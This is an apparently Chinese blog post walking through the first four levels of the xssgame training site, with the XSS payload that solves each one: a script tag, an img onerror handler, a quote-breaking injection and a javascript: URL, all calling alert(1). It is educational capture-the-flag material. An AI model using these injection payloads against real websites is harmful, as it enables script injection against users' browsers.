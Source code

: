 ```yaml
---
title: xssgame
layout: post
tags:
  - sec
  - tools
  - 
category: 
  - hack
  - tools
  - game
comments: true
share: true
---
```


玩了一下xssgame


* TOC
{:toc}

<!--more-->

**关于XSS Cheat Sheet的一些链接:**
- https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
- http://brutelogic.com.br/blog/cheat-sheet/
- http://teamultimate.in/xss-cheat-sheet-waf-filter-bypass/

# Level 1

[level 1](http://www.xssgame.com/m4KKGHi2rVUN)的地址：http://www.xssgame.com/m4KKGHi2rVUN

![题目](/img/game/xssgame/level_1.png)

解题：

```javascript
<script>alert(1);</script>
```

![通关](/img/game/xssgame/level1.png)


# Level 2

[Level2](http://www.xssgame.com/WrfpuKFX8GNr)的地址：http://www.xssgame.com/WrfpuKFX8GNr

![Level2](/img/game/xssgame/level2.png)

先插入:

```javascript
<img src='test' onerror='alert("1")'>
```

查看源码,看到：

```javascript
<img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('&lt;img src=&#39;test&#39; onerror=&#39;alert(&#34;1&#34;)&#39;&gt;');" />
```
由此可知，可进行代码注入：


```javascript
'-alert(1)-'
```

![通关](/img/game/xssgame/level2_solutions.png)

# Level3

[Level3](http://www.xssgame.com/u0hrDTsXmyVJ)的地址:http://www.xssgame.com/u0hrDTsXmyVJ

![Level3](/img/game/xssgame/level_3_q.png)
通过查看源码：
```javascript
function chooseTab(name) {
        var html = "Cat " + parseInt(name) + "<br>";
        html += "<img src='/static/img/cat" + name + ".jpg' />";

        document.getElementById('tabContent').innerHTML = html;

        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(name)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }

        window.location.hash = name;

        // Tell parent we've changed the tab
        top.postMessage({'url': self.location.toString()}, "*");
      }
```
根据改变图片的id来切换图片，若改成没有的id，即可用`onerror`事件触发alert()：

```javascript
#1'onerror=alert(1)>
```

![通关](/img/game/xssgame/level3_a.png)

# Level4


[Level4](http://www.xssgame.com/__58a1wgqGgI)地址是：http://www.xssgame.com/__58a1wgqGgI

![Level4](/img/game/xssgame/level4_q.png)

![注册成功页面跳转链接](/img/game/xssgame/level4.png)
将`welcome`替换成`javascript:alert(1)`即可通关：

```javascript
javascript:alert(1)
```
![通关](/img/game/xssgame/level4_a.png)


只做到了第四关，后面的有时间再继续.....

